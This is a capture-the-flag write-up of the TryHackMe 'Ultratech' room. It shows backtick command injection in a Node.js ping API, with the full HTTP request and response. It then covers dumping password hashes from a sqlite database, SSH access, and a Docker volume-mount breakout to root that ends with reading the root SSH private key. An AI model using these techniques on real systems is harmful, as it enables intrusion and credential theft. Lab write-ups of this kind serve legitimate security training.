 # Ultratech

[TryHackMe room link](https://tryhackme.com/room/ultratech1)

# Informations about the room

> You have been contracted by UltraTech to pentest their infrastructure. It is a grey-box kind of assessment, the only information you have is the company's name and their server's IP address.

# Open ports
21/tcp    open  ftp     syn-ack vsftpd 3.0.3

22/tcp    open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

8081/tcp  open  http    syn-ack Node.js Express framework

31331/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))

# Enumeration 

Gobuster finds a js file in `http://10.10.91.156:31331/js/api.js` that explains the usage of a API at port 8081

```javascript
(function() {
    console.warn('Debugging ::');

    function getAPIURL() {
	return `${window.location.hostname}:8081`
    }
    
    function checkAPIStatus() {
	const req = new XMLHttpRequest();
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
	    req.onload = function (e) {
		if (req.readyState === 4) {
		    if (req.status === 200) {
			console.log('The api seems to be running')
		    } else {
			console.error(req.statusText);
		    }
		}
	    };
	    req.onerror = function (e) {
		console.error(xhr.statusText);
	    };
	    req.send(null);
	}
	catch (e) {
	    console.error(e)
	    console.log('API Error');
	}
    }
    checkAPIStatus()
    const interval = setInterval(checkAPIStatus, 10000);
    const form = document.querySelector('form')
    form.action = `http://${getAPIURL()}/auth`;
    
})();
```

This API uses the native ping binary to ping XD a host supplied in the url

We can achieve a sort of command injection by adding a backtick before the command that you want to execute and at the end

This is the request made with burpsuite:
```console
GET /ping?ip=`id` HTTP/1.1
 Host: 10.10.91.156:8081
 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/111.0
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
 Accept-Language: en-US,en;q=0.5
 Accept-Encoding: gzip, deflate
 Connection: close
 Upgrade-Insecure-Requests: 1
 If-None-Match: W/"105-8X9gjnZDRa4onQCfgq8xavlixLo"
```

This is the response:

```console
HTTP/1.1 200 OK
X-Powered-By: Express
Access-Control-Allow-Origin: *
Content-Type: text/html; charset=utf-8
Content-Length: 61
ETag: W/"3d-2J2mX1i3I4uQhsVi8ABaq24IgPw"
Date: Tue, 28 Mar 2023 13:18:15 GMT
Connection: close

ping: groups=1002(www): Temporary failure in name resolution
```

By running the `ls` command we can spot a utech.db.sqlite database

We can cat it and get the hashed passwords of two users

`r00t` and `admin`

After logging in with ssh

We find ourselves in a docker container 

We can enumerate docker images by running `docker images`
```
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE                                                                                       
bash                latest              495d6437fc1e        4 years ago         15.8MB 
```

To break out of the container we will use the mounted volume from the host:

`docker run --rm -it -v /:/host bash bash`

[HackTricks explanation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation#arbitrary-mounts)

```console
bash-5.0# id                                                                                                                                                               
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
bash-5.0# cd host
bash-5.0# ls
bin             etc             initrd.img.old  lost+found      opt             run             srv             tmp             vmlinuz
boot            home            lib             media           proc            sbin            swap.img        usr             vmlinuz.old
dev             initrd.img      lib64           mnt             root            snap            sys             var
bash-5.0# cd root
bash-5.0# cd .ssh/
bash-5.0# ls
authorized_keys  id_rsa           id_rsa.pub
bash-5.0# cat id_rsa
```
